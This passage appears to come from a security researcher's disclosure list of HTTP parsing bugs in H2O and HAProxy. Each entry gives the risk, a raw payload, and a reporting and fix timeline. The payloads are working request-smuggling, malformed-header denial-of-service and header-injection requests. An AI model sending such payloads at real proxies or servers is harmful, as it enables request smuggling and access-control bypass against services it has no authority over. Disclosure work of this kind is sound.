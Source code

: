### H2O
1. Whitespace characters are not stripped during HTTP/2 to HTTP/1.1 translation.
  - Use case: ???
  - Requirements: H2O is acting as a transducer to an HTTP/1.1 backend.
  - Risk: None
  - Payload: `PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00E\x01\x05\x00\x00\x00\x01\x00\n:authority\tlocalhost\x00\x05:path\x01/\x00\x07:method\x03GET\x00\x07:scheme\x04http\x00\x05test1\x03\ta\t`
  - Timeline:
    - July 7, 2023: Reported via [GH issue](https://github.com/h2o/h2o/issues/3250).
    - July 18, 2023: Fixed in [PR #3256](https://github.com/h2o/h2o/pull/3256)
2. Empty header names are preserved across HTTP/2 to HTTP/1.1 translation, leading to the production of invalid HTTP/1.1.
  - Use case: DoS
  - Requirements: H2O is acting as a transducer to an HTTP/1.1 backend, and its backend rejects empty header names (as most do).
  - Risk: Low. This bug can be used to make a reasonable server 400, which will break connection sharing.
  - Payload: `PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00=\x01\x05\x00\x00\x00\x01\x00\n:authority\tlocalhost\x00\x05:path\x01/\x00\x07:method\x03GET\x00\x07:scheme\x04http\x00\x00\x00`
  - Timeline:
    - July 7, 2023: Reported via [GH issue](https://github.com/h2o/h2o/issues/3250).
    - July 18, 2023: Fixed in [PR #3256](https://github.com/h2o/h2o/pull/3256)
3. Chunk-sizes are interpreted as their longest valid prefix.
  - Use case: Request smuggling
  - Requirements: A transducer that accepts and forwards `0x`-prefixed chunk-sizes.
  - Risk: High. See OpenBSD relayd bug 3, Pound bug 2, and Akamai bug 2.
  - Payload: `GET / HTTP/1.1\r\nHost: a\r\nTransfer-Encoding: chunked\r\n\r\n0_2e\r\n\r\nGET / HTTP/1.1\r\nHost: a\r\nContent-Length: 5\r\n\r\n0\r\n\r\n`
  - Timeline:
    - August 1, 2023: Reported via email.
    - December 12, 2023: Fixed in [PR](https://github.com/h2o/picohttpparser/pull/78).
4. Requests with multiple conflicting `Content-Length` headers are accepted, prioritizing the first.
  - Use case: Request smuggling
  - Requirements: A transducer that accepts and forwards requests with 2 `Content-Length` headers, prioritizing the last.
  - Risk: Medium. See OpenBSD relayd bug 7.
  - Payload: `GET / HTTP/1.1\r\nHost: a\r\nContent-Length: 1\r\nContent-Length: 0\r\n\r\nZ`
  - Timeline:
    - November 30, 2023: Reported via email.
    - January 31, 2024: Remains unfixed.

### HAProxy
1. Empty `Content-Length` headers are incorrectly forwarded, even in the presence of other `Content-Length` headers, as long as the empty `Content-Length` header comes first.
  - Use case: Request smuggling
  - Requirements: A server that interprets empty `Content-Length` values as 0 and accepts multiple `Content-Length` headers in incoming requests, prioritizing the first.
  - Risk: Medium. See WEBrick bug 1.
  - Payload: `GET / HTTP/1.1\r\nhost: whatever\r\ncontent-length: \r\ncontent-length: 59\r\n\r\nPOST /evil HTTP/1.1\r\nhost: whatever\r\ncontent-length: 34\r\n\r\nGET / HTTP/1.1\r\nhost: whatever\r\n\r\n`
  - Timeline:
    - August 2, 2023: Reported via [GH issue](https://github.com/haproxy/haproxy/issues/2237).
    - August 9, 2023: Reported smuggling PoC with Mongoose backend via email.
    - August 9, 2023: Fixed in [commit](https://github.com/haproxy/haproxy/commit/6492f1f29d738457ea9f382aca54537f35f9d856).
    - August 10, 2023: Assigned [CVE-2023-40225](https://www.cve.org/CVERecord?id=CVE-2023-40225).
2. `\x00` is forwarded in header values, and terminates strings that get matched with the `str` ACL rules.
  - Use case: ACL bypass